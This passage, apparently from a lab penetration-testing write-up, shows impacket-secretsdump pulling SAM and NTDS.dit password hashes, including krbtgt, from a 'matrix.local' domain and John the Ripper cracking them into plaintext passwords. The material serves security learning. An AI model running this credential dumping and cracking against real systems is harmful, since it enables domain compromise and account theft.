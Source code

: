 ```bash
$ impacket-secretsdump -sam C:/temp/sam.save -system C:/temp/system.save -ntds C:/WINDOWS/NTDS/ntds.dit LOCAL  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x27fc70657432cdc5ccfc550708bcea2a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:e5c441b5bea59d6f93be3a377c968336:b57a6ca7ff2c49b1d9587d7a650a49bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a75e7ac7d0a5c4ec009223c26458fed9
[*] Reading and decrypting hashes from C:/WINDOWS/NTDS/ntds.dit 
Administrator:500:b34ce522c3e4c8770df97ed583cbb43f:d5b986fd10a3de6357d8a5498cae32d4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:60ab0dad0b3327d83d534968a00dfa17:::
SERVER$:1003:aad3b435b51404eeaad3b435b51404ee:f0aad6f3df329db61fd142ab2295d9bb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4f443682fcc94b068c287a5ab968e793:::
matrix.local\maryblack:1106:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\johndoe:1107:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\ninjadascaldas:1109:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\iiuser:1112:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\mssqluser:1113:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\Apoc:1115:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Cypher:1116:3bc5f9dabd69cfffa7de36b3f0f02df3:a20ef6aea8e111ab393b82e27ae84140:::
matrix.local\Dozer:1117:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Link:1118:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Switch:1119:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Tank:1120:b34ce522c3e4c87738f10713b629b565:5858d47a41e40b40f294b3100bea611f:::
matrix.local\alexsantos:1121:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\anakarenina:1122:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\homer:1123:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\rute:1124:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\wordpress:1125:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\apacheadmin:1126:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
[*] Cleaning up... 
```

After that, we can use `John the Ripper` or `hashcat` to crack the hashes obtained previously. Using `John the Ripper`, I was able to find the following passwords:

```bash
$ $ john --format=NT matrix_users.txt --show
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
matrix.local\maryblack:Passw0rd:1106:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\johndoe:Passw0rd!:1107:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\ninjadascaldas:Passw0rd!:1109:b34ce522c3e4c87722c34254e51bff62:fc525c9683e8fe067095ba2ddc971889:::
matrix.local\iiuser:Password123:1112:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\mssqluser:Password123:1113:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
matrix.local\Apoc:Passw0rd:1115:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Cypher:chely.16.goth:1116:3bc5f9dabd69cfffa7de36b3f0f02df3:a20ef6aea8e111ab393b82e27ae84140:::
matrix.local\Dozer:Passw0rd:1117:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Link:Passw0rd:1118:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
matrix.local\Switch:Passw0rd:1119:b34ce522c3e4c8774a3b108f3fa6cb6d:a87f3a337d73085c45f9416be5787d86:::
```
